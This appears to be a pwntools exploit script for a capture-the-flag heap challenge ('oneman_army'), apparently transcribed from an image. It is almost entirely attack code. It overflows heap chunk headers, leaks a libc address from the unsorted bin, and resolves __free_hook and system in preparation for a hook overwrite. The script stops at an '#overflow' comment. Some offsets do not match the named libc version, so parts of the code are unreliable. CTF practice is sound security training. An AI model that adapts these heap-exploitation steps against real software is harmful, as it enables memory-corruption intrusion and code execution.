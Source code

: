 ```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./oneman_army')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./oneman_army')

else:
    libc = ELF('./libc-2.27.so')

def Alloc(size,content):
    p.recvuntil('choice: ')
    p.sendline('1')
    p.recvuntil("Size: ")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.send(content)

def Show():
    p.recvuntil('choice: ')
    p.sendline('2')

def Free():
    p.recvuntil('choice: ')
    p.sendline('3')

def Magic(content):
    p.recvuntil("choice: ")
    p.sendline(str(0x2333))
    p.send(content)

def exp():
    #leak libc
    for i in range(23):
        Alloc(0x88,'a')

    Magic('a'*0x80+p64(0)+p64(0xc1))
    Alloc(0xa0,'a')
    #
    for j in range(7):
        for i in range(54):
            Alloc(0x88,'a')
        Alloc(0x20,'a')
        Magic('a'*0x20+p64(0)+p64(0xc1))
        Alloc(0xa0,'a')
    #get ub
    Alloc(0x28,'a'*8)
    Show()
    #
    p.recvuntil("a"*8)
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x3ebd30
    log.success("libc base => " + hex(libc_base))
    free_hook = libc_base + libc.sym["__free_hook"]
    system_addr = libc_base + libc.sym["system"]
    Free()
    Alloc(0x68,'a')
    Free()
    #overflow
```
